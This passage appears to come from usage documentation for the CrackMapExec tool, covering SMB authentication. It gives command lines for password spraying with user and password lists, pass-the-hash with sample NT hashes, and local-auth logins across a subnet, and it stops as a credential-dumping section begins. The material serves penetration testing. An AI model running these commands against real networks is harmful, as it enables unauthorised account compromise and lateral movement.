 If multiple domains are in play you may need to specify the target domain using -d  
For example authenticating to the domain labnet.com  
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p "PASSWORDHERE" -d LABNET
```

#### Using Username/Password Lists
You can use multiple usernames or passwords by seperating the names/passwords with a space.
```
#~ cme smb 192.168.1.101 -u user1 user2 user3 -p Summer18
#~ cme smb 192.168.1.101 -u user1 -p password1 password2 password3
```
CME accepts txt files of usernames and passwords. One user/password per line.
Watch out for account lockout!

```
#~ cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18
#~ cme smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```

\*Note\*: By default CME will exit after a successful login is found.
Using the --continue-on-success flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list
Usage example:
```
#~ cme smb 192.168.1.101 -u /path/to/users.txt -p Summer18 --continue-on-success
```
***

### Authentication/Checking credentials (Local)  
Adding --local-auth to any of the authentication commands with attempt to logon locally.  
  
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --local-auth
#~ cme smb 192.168.1.0/24 -u '' -p '' --local-auth
#~ cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --local-auth
#~ cme smb 192.168.1.0/24 -u UserNAme -H 'NTHASH' --local-auth
#~ cme smb 192.168.1.0/24 -u localguy -H '13b29964cc2480b4ef454c59562e675c' --local-auth
#~ cme smb 192.168.1.0/24 -u localguy -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c' --local-auth
```
Results will display the hostname next to the user:password
```
	SMB         192.168.1.101    445    HOSTNAME          [+] HOSTNAME\Username:Password (Pwn3d!)  
```
***

### Obtaining Credentials
The following examples use a username and plaintext password although user/hash combos work as well.  
  
\*Requires Local Admin  
\*\*\*Requires Domain Admin or Local Admin Priviledges on target Domain Controller  
  
  